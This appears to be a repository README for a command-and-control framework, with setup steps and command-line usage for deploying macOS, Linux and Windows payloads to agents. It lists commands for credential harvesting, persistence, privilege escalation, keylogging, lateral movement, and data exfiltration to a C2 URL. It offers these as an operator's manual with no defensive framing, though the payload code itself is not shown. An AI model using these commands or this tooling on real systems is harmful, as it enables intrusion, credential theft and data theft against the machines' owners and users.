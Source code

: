 Installation and Setup

Clone the Repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv source venv/bin/activate 
# On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh
    payloads/linux_payload.sh
    payloads/windows_payload.ps1

Running the C2 Server

python c2_server.py CLI Usage

List Agents python cli.py list-agents

Deploy Payload python cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli.py generate-report

Send a Specific Command python cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli.py send-command <agent_id> cred_harvest

Persistence python cli.py send-command <agent_id> persistence

Privilege Escalation python cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli.py send-command <agent_id> keylogging

Lateral Movement python cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py
